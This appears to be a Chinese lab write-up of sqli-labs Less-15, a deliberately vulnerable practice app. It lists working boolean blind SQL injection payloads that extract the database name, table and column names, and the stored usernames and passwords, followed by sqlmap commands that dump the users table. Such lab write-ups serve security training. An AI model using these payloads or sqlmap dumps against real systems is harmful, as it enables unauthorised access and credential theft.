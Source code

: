 ```yaml
---
title: less15
url: https://www.yuque.com/u29002979/ep2zrx/rf1nzelfaag76oai
---
```


```bash
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
```

用单引号'闭合
`1'`显示红色的图片
`admin' order by 2-- +`显示蓝色图片

`admin' union select 1,2-- +`蓝色图片

正确的数据与错误数据页面回显的图片不一样，使用**布尔盲注**\ <a name="K8btv"></a>

# 布尔盲注

```bash
判断数据库名称长度
admin' or length(database())=8--+
显示蓝色图片，说明数据库长度为8

逐一猜解数据库名称
admin' or ascii(substr(database(),1,1))=115--+
第一个字符是s  ...

猜解数据表名称
admin' or ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>101 --+
第一个字符是e ...

猜解字段名称
admin' or ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))=105--+
第一个字符是i ...

猜解字段内容
admin' or ascii(mid((select group_concat(username,0x7e,password) from users),1,1))=68--+
第一个字符是D ...
```

<a name="ytLRo"></a>

# sqlmap

```bash
探测注入点
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch
爆破数据库名
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch --current-db
爆破数据表
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch -D security --tables 
最后脱库
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch -D security -T users --dump

```
